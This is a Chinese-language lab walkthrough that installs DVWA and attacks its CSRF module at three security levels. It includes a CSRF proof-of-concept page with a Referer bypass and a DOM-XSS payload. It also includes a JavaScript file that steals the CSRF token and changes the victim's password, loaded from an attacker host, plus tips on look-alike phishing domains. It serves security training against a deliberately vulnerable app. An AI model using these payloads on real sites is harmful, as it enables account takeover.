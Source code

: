 Damn Vulnerable Web Application (DVWA).

## 1. Install

安装依赖

```
┌──(sec@debian)-[~]
└─$ sudo apt install -y apache2 mariadb-server mariadb-client php php-mysqli php-gd libapache2-mod-php composer
```

Enable `mod_rewrite` 

```
┌──(sec@debian)-[~]
└─$ sudo a2enmod rewrite && sudo systemctl restart apache2.service
```

Clone

```
┌──(sec@debian)-[~]
└─$ sudo -E git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
```

Install API module

```
┌──(sec@debian)-[~]
└─$ sudo composer install -d /var/www/html/dvwa/vulnerabilities/api
```

## 2. Init

Folder Permissions

```
┌──(sec@debian)-[~]
└─$ sudo chown -R www-data:www-data /var/www/html/dvwa/hackable/uploads /var/www/html/dvwa/config \
&& sudo chmod -R 775 /var/www/html/dvwa/hackable/uploads /var/www/html/dvwa/config
```

PHP Configuration

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /etc/php/8.2/apache2/php.ini && sudo systemctl restart apache2.service
```

```
508 display_errors = On
517 display_startup_errors = On
866 allow_url_fopen = On
870 allow_url_include = On
```

释放 Configuration File

```
┌──(sec@debian)-[~]
└─$ sudo cp /var/www/html/dvwa/config/config.inc.php.dist /var/www/html/dvwa/config/config.inc.php
```

Configure

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /var/www/html/dvwa/config/config.inc.php
```

```
20 $_DVWA[ 'db_user' ]     = getenv('DB_USER') ?: 'root';
21 $_DVWA[ 'db_password' ] = getenv('DB_PASSWORD') ?: '123456';
27 $_DVWA[ 'recaptcha_public_key' ]  = '6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI';
28 $_DVWA[ 'recaptcha_private_key' ] = '6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe';
33 $_DVWA[ 'default_security_level' ] = getenv('DEFAULT_SECURITY_LEVEL') ?: 'low';
```

Click `Create / Reset Database` 

> http://127.0.0.1:60080/dvwa/setup.php

## 3. Usage

登录 `admin:password` 

> http://127.0.0.1:60080/dvwa/login.php

修改安全级别

![修改安全级别](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/%E4%BF%AE%E6%94%B9%E5%AE%89%E5%85%A8%E7%BA%A7%E5%88%AB.png)

### 3.1. csrf

> http://127.0.0.1:60080/dvwa/vulnerabilities/csrf/

> 1. 攻击者首先会在自己的个人账户上获取敏感操作的请求包，如：修改密码，修改邮箱，修改手机号，账号删除，转账等操作
> 2. 之后会利用这些请求包构造一个网页形式的 poc，将这个 poc 发送到公网
> 3. 最后诱使目标账号在登录状态下点击 poc 链接，即可伪造用户请求进行敏感操作

### 3.1.1. low

```
目标账户：admin:password
个人账户：gordonb:abc123
```

登录个人账户拦截请求包，并提交修改密码请求

![登录个人账户拦截请求包，并提交修改密码请求](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E7%99%BB%E5%BD%95%E4%B8%AA%E4%BA%BA%E8%B4%A6%E6%88%B7%E6%8B%A6%E6%88%AA%E8%AF%B7%E6%B1%82%E5%8C%85%EF%BC%8C%E5%B9%B6%E6%8F%90%E4%BA%A4%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82.png)

构造 poc

![构造 poc](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E6%9E%84%E9%80%A0%20poc.png)

将 poc 放在网站上

```shell
┌──(root㉿purple)-[~]
└─# systemctl start apache2 && vim /var/www/html/test.html
```

诱使目标账户在登录状态下访问 poc 链接即可修改目标账户密码修改

> http://kali.local/test.html

> 布置在公网上时可以购买短链接或相似域名伪造官网

### 3.1.2. medium

> 1. 这里使用了 Referer 校验用户请求是否来自官网。
> 2. 假设官网为 `purple.local` ，当用户在这个网站进行操作时校验了服务端当前所在网站为官网，因此是正常请求，不会拦截。
> 3. 但是当目标被诱导使用攻击者伪造的网站 `kali.local` 操作时，服务端会校验当前的网站是否是 `purple.local` ，因此会对 `kali.local` 的请求进行拦截。

绕过方式有两种

1. 域名绕过：伪造网站可申请一个相似域名如 `test.purple.local` 或 `purple.local.cn` 等即可绕过

2. 网址绕过：在伪造网站构造一个含有校验对象的路径，如 `http://kali.local/purple.local.html` 即可绕过

指定 Referer 策略： `no-referrer-when-downgrade` 或 `unsafe-url` 

>  `no-referrer-when-downgrade` 只有当从 HTTPS 降级为 HTTP 时不会发送完整 URL
>
>  `unsafe-url` 永远发送完整 URL
>
> 完整的 URL ：`http://kali.local/purple.local.html` 
>
> 不完整的 URL ：`http://kali.local` 

在一个含有校验对象的路径中构造 POC

```shell
┌──(root㉿purple)-[~]
└─# vim /var/www/html/purple.local.html
```

```html
<!DOCTYPE html>
<html>
<head>
    <meta name="referrer" content="unsafe-url">
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <meta name="referrer" content="unsafe-url">
</head>
<body>
    <a href="http://127.0.0.1:60080/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change" referrer="unsafe-url">
        csrf
    </a>
</body>
</html>
```

### 3.1.3. high

需要利用 xss(dom) 漏洞获取 token 

> 可以利用 # 注释，# 之后的代码不会发送到服务器，但是可以在本地加载

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert(%22hello%22)%3C/script%3E
```

成功注入

![成功注入](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/high/%E6%88%90%E5%8A%9F%E6%B3%A8%E5%85%A5.png)

构造一个 js 文件，通过 xss 漏洞执行这个文件，获取 token 来进行 csrf 攻击

```shell
┌──(root㉿kali)-[~]
└─# vim /var/www/html/csrf.js
```

```js
//弹出cookie
alert(document.cookie);
//定义AJAX加载的页面
	var theUrl = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/';
//匹配浏览器
if (window.XMLHttpRequest){
// IE7+, Firefox, Chrome, Opera, Safari
		xmlhttp=new XMLHttpRequest(); 
	}else{
// IE6, IE5
		xmlhttp=new ActiveXObject("Microsoft.XMLHTTP"); 
	}
	var count = 0;
//页面加载完成后执行函数
	xmlhttp.onreadystatechange=function(){
//判断请求已完成并且响应就绪状态码为200时执行代码
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
//页面内容存储到text中进行匹配token
		var text = xmlhttp.responseText;
		var regex = /user_token\' value\=\'(.*?)\' \/\>/;
		var match = text.match(regex);
		console.log(match);
//弹出token
		alert(match[1]);
		var token = match[1];
//定义payload url并绑定token为我们从页面匹配到的token并且定义新的密码，新密码是admin
var new_url = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/?user_token='+token+'&password_new=123456&password_conf=123456&Change=Change'
//GET方式提交一次new_url
		if(count==0){
			count++;
			xmlhttp.open("GET",new_url,false);
			xmlhttp.send();
		}
}
};
//GET方式提交theUrl
	xmlhttp.open("GET",theUrl,false);
	xmlhttp.send();

```

通过 xss 漏洞加载 js 文件进行 csrf 攻击来修改密码

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#<script src="http://kali.local/csrf.js"></script>
```

> 可将这个 url 放到伪造页面中

---

References

- [DVWA](https://github.com/digininja/DVWA)

1
